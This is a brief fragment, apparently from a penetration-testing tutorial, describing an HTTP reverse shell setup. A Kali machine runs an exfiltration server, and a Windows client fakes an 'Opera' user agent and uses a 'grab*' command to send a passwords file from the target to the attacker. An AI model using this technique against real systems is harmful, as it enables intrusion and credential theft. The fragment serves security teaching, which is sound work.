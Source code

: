 Kali: Data Exfiltration_HTTP_Server
Win Target: Client - HTTP Reverse Shell + Opera

to manipulate Browser user agent: headers = {'User-Agent': 'Opera'}


grab file from the Target and send to Kali as a file /root/Desktop/1.txt

use below syntax:

grab*C:\users\Test\Desktop\passwords